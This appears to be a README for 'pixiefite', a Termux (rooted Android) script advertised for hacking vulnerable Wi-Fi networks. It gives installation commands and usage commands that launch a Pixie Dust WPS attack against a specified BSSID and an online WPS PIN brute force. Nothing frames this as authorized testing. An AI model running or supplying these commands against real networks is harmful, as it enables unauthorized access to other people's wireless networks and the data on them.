 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pip install pycryptodome
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/x1337cn/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
